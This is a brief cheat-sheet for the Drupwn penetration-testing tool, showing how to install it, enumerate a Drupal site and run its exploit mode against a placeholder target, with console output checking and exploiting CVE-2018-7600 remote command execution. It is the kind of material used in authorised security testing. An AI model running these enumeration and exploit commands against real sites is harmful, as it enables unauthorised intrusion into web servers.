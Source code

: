 Inspired in C4N6
#
#
#
This guide cover the two actual modes supported by this great tool 
# drupwn
#
#

## Install
        cd /usr/share/ && git clone https://github.com/immunIT/drupwn.git && cd drupwn && python setup.py install && pip3 install -r requirements.txt

## Enumeration
        cd /usr/share/drupwn && python3 drupwn enum https://yourtarget.com --nodes --dfiles --themes --version x --users --range 10 --thread 10 --log

#
#
#
## Exploit

        cd /usr/share/drupwn && python3 drupwn exploit https://yourtarget.com --nodes --dfiles --themes --version x --users --range 10 --thread 10 --log


#
#
#


        ____
       / __ \_______  ______ _      ______
      / / / / ___/ / / / __ \ | /| / / __ \
     / /_/ / /  / /_/ / /_/ / |/ |/ / / / /
    /_____/_/   \__,_/ .___/|__/|__/_/ /_/
                     /_/
    
Commands available: list | quit | check [CVE_NUMBER] | exploit [CVE_NUMBER]

Drupwn> list
+---------------+--------------------------+------------------------+
|      CVE      |       Description        |   Versions affected    |
+---------------+--------------------------+------------------------+
| CVE-2018-7600 | Remote Command Execution | 7.x < 7.58 & 8.x < 8.1 |
+---------------+--------------------------+------------------------+

Drupwn> check CVE-2018-7600

[+] Application vulnerable


Drupwn> exploit CVE-2018-7600


Drupwn>  


#
#
#
From this point in advance let that your curiosity be spontaneous...
